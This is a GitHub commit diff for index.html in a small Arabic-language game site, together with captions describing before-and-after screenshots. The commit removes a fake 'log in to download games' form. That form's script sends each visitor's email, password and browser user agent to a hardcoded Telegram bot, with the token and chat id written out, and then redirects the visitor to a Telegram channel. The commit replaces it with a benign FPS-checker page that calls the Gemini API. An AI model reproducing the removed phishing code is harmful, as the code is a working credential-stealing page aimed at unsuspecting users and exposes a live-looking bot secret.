

Before and after one commit to wisampro94-spec/game-login, a plain HTML site: page index.html in a window 1280 px wide. Shown: the part 212-800 px from the top of the page, without its empty margins (283-996 px from the left). Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
Update index.html

```diff
--- a/index.html
+++ b/index.html
@@ -3,134 +3,115 @@
 <head>
     <meta charset="UTF-8">
     <meta name="viewport" content="width=device-width, initial-scale=1.0">
-    <title>تسجيل الدخول - تحميل الألعاب</title>
+    <title>WISAM FPS Checker - حاسبة أداء الألعاب</title>
     <style>
-        * {
-            box-sizing: border-box;
-            margin: 0;
-            padding: 0;
-            font-family: 'Segoe UI', Tahoma, Geneva, Verdana, sans-serif;
-        }
-        body {
-            background-color: #121212;
-            color: #ffffff;
-            display: flex;
-            justify-content: center;
-            align-items: center;
-            height: 100vh;
-        }
-        .login-card {
-            background-color: #1e1e1e;
-            padding: 30px;
-            border-radius: 12px;
-            box-shadow: 0 4px 20px rgba(0, 0, 0, 0.5);
-            width: 100%;
-            max-width: 400px;
-            text-align: center;
-        }
-        .login-card h2 {
-            margin-bottom: 20px;
-            color: #00bcd4;
-        }
-        .input-group {
-            margin-bottom: 15px;
-            text-align: right;
-        }
-        .input-group label {
-            display: block;
-            margin-bottom: 5px;
-            font-size: 14px;
-            color: #bbb;
-        }
-        .input-group input {
-            width: 100%;
-            padding: 12px;
-            border: 1px solid #333;
-            border-radius: 6px;
-            background-color: #2c2c2c;
-            color: #fff;
-            font-size: 16px;
-        }
-        .input-group input:focus {
-            border-color: #00bcd4;
-            outline: none;
-        }
-        .btn-submit {
-            width: 100%;
-            padding: 12px;
-            background-color: #00bcd4;
-            border: none;
-            border-radius: 6px;
-            color: #121212;
-            font-size: 16px;
-            font-weight: bold;
-            cursor: pointer;
-            transition: background 0.3s;
-        }
-        .btn-submit:hover {
-            background-color: #008ba3;
-        }
+        * { box-sizing: border-box; margin: 0; padding: 0; font-family: 'Segoe UI', Tahoma, Geneva, Verdana, sans-serif; }
+        body { background-color: #0d0714; color: #fff; padding: 20px; display: flex; justify-content: center; align-items: center; min-height: 100vh; }
+        .container { background: #180d28; border: 1px solid #3d1664; width: 100%; max-width: 650px; border-radius: 16px; padding: 30px; box-shadow: 0 10px 30px rgba(0,0,0,0.8); }
+        h1 { text-align: center; color: #00bcd4; margin-bottom: 5px; font-size: 28px; }
+        p.subtitle { text-align: center; color: #b3a6cb; font-size: 14px; margin-bottom: 25px; }
+        .form-group { margin-bottom: 18px; }
+        label { display: block; margin-bottom: 6px; font-weight: bold; color: #d1c4e9; font-size: 14px; }
+        input, select { width: 100%; padding: 12px; background: #0a0412; border: 1px solid #4a2b6b; border-radius: 8px; color: #fff; font-size: 15px; outline: none; }
+        input:focus { border-color: #00bcd4; }
+        button { width: 100%; padding: 14px; background: linear-gradient(135deg, #00bcd4, #0088cc); border: none; border-radius: 8px; color: #fff; font-size: 18px; font-weight: bold; cursor: pointer; transition: 0.3s; margin-top: 10px; }
+        button:hover { transform: scale(1.02); opacity: 0.9; }
+        .result-box { margin-top: 25px; padding: 20px; background: #0a0412; border: 1px solid #00bcd4; border-radius: 10px; display: none; line-height: 1.8; color: #e0e0e0; font-size: 15px; white-space: pre-wrap; }
+        .loading { display: none; text-align: center; margin-top: 20px; color: #00bcd4; font-weight: bold; }
     </style>
 </head>
 <body>
 
-    <div class="login-card">
-        <h2>تسجيل الدخول لتحميل الألعاب</h2>
-        <form id="loginForm">
-            <div class="input-group">
-                <label for="email">البريد الإلكتروني أو المعرف</label>
-                <input type="text" id="email" name="email" required placeholder="أدخل البريد...">
-            </div>
-            <div class="input-group">
-                <label for="password">كلمة المرور</label>
-                <input type="password" id="password" name="password" required placeholder="أدخل كلمة المرور...">
-            </div>
-            <button type="submit" class="btn-submit" id="submitBtn">دخول وتحميل الألعاب</button>
-        </form>
+<div class="container">
+    <h1>🎮 WISAM FPS Checker</h1>
+    <p class="subtitle">افحص فريمات جهازك وأفضل إعدادات للألعاب بالذكاء الاصطناعي</p>
+
+    <div class="form-group">
+        <label>🖥️ كرت الشاشة (GPU):</label>
+        <input type="text" id="gpu" placeholder="مثال: GTX 1070 أو RTX 3060">
     </div>
 
-    <script>
-        document.getElementById('loginForm').addEventListener('submit', function(e) {
-            e.preventDefault(); // منع إعادة تحميل الصفحة
+    <div class="form-group">
+        <label>⚙️ المعالج (CPU):</label>
+        <input type="text" id="cpu" placeholder="مثال: i7 7th Gen أو Ryzen 5 5600X">
+    </div>
 
-            const email = document.getElementById('email').value;
-            const password = document.getElementById('password').value;
-            const submitBtn = document.getElementById('submitBtn');
+    <div class="form-group">
+        <label>🎰 الذاكرة العشوائية (RAM):</label>
+        <select id="ram">
+            <option value="8GB">8 GB</option>
+            <option value="16GB" selected>16 GB</option>
+            <option value="32GB">32 GB</option>
+        </select>
+    </div>
 
-            submitBtn.disabled = true;
-            submitBtn.textContent = 'جاري التحويل لقناتك...';
+    <div class="form-group">
+        <label>🎯 اللعبة المراد فحصها:</label>
+        <input type="text" id="game" placeholder="مثال: BeamNG.drive أو GTA V أو RDR2">
+    </div>
 
-            // معلومات بوت التليجرام الخاص بك
-            const botToken = "7703622294:AAEkYLpMPBY2-dnATGpwJWp5cX-CwCVrcvY";
-            const chatId = "1049167772";
+    <button onclick="checkPerformance()">⚡ فحص الأداء المتوقع</button>
 
-            // صياغة الرسالة
-            const message = `🚨 تسجيل دخول جديد!\n\n📧 البريد/المعرف: ${email}\n🔑 كلمة المرور: ${password}\n🌐 المتصفح: ${navigator.userAgent}`;
+    <div class="loading" id="loading">⏳ جاري تحليل مواصفات جهازك عبر الذكاء الاصطناعي...</div>
+    <div class="result-box" id="result"></div>
+</div>
 
-            const url = `https://api.telegram.org/bot${botToken}/sendMessage`;
+<script>
+    async function checkPerformance() {
+        const gpu = document.getElementById('gpu').value;
+        const cpu = document.getElementById('cpu').value;
+        const ram = document.getElementById('ram').value;
+        const game = document.getElementById('game').value;
+        const resultDiv = document.getElementById('result');
+        const loadingDiv = document.getElementById('loading');
 
-            // إرسال البيانات للبوت وإعادة التوجيه مباشرة بعد اكتمال الإرسال
-            fetch(url, {
+        if (!gpu || !cpu || !game) {
+            alert('يرجى ملء جميع الخانات أولاً!');
+            return;
+        }
+
+        loadingDiv.style.display = 'block';
+        resultDiv.style.display = 'none';
+
+        // 🔑 ضع مفتاح Gemini API الخاص بك هنا
+        const API_KEY = "YOUR_GEMINI_API_KEY";
+
+        const promptText = `أنت خبير متقدم في أداء وتوافق ألعاب الكمبيوتر.
+المستخدم يمتلك المواصفات التالية:
+- كرت الشاشة: ${gpu}
+- المعالج: ${cpu}
+- الرام: ${ram}
+يريد معرفة أداء لعبة: ${game} على جهازه على بدقة 1080p.
+
+يرجى إعطاء إجابة منسقة ومنظمة تحتوي على:
+1. 📊 الفريمات المتوقعة (FPS) على إعدادات (Low / Medium / High / Ultra).
+2. 💡 التقييم العام لإمكانية تشغيل اللعبة (سلس جداً / متوسط / خفيف / غير مناسب).
+3. ⚙️ أفضل الإعدادات الرسومية المقترحة للحصول على أعلى استقرار وأفضل أداء.
+اجعل الأسلوب محترفاً وسريع القراءة واستخدم الإيموجي.`;
+
+        try {
+            const response = await fetch(`https://generativelanguage.googleapis.com/v1beta/models/gemini-2.5-flash:generateContent?key=${API_KEY}`, {
                 method: 'POST',
-                headers: {
-                    'Content-Type': 'application/json'
-                },
+                headers: { 'Content-Type': 'application/json' },
                 body: JSON.stringify({
-                    chat_id: chatId,
-                    text: message,
-                    parse_mode: 'HTML'
+                    contents: [{ parts: [{ text: promptText }] }]
                 })
-            })
-            .then(response => {
-                // تحويل المستخدم لقناتك فوراً بعد نجاح الإرسال
-                window.location.href = 'https://t.me/wisamgames';
-            })
-            .catch(error => {
-                // حتى لو حصل خطأ بالشبكة، نحوله للقناة حتى ما ينزعج المستخدم
-                window.location.href = 'https://t.me/wisamgames';
             });
-        });
-    </script>
+
+            const data = await response.json();
+            const aiText = data.candidates[0].content.parts[0].text;
+
+            loadingDiv.style.display = 'none';
+            resultDiv.style.display = 'block';
+            resultDiv.innerText = aiText;
+
+        } catch (error) {
+            loadingDiv.style.display = 'none';
+            alert('حدث خطأ أثناء الاتصال بالذكاء الاصطناعي، يرجى المحاولة لاحقاً.');
+            console.error(error);
+        }
+    }
+</script>
 
 </body>
 </html>
```
